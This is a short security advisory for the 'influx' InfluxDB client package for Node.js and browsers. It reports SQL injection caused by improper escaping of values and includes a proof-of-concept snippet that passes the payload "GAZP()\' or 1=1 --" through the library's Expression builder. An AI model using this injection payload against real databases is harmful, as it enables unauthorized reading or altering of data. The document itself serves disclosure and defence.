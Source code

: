 # Overview

influx is an InfluxDB Client for Node.js and Browsers.

This package is vulnerable to SQL Injection (SQLi) due to improperly escaping value input.

# Proof of Concept

```
const influx = require('influx')
const exp = new influx.Expression();
exp.tag('symbol').equals.value("GAZP()\\' or 1=1 --").toString()
```
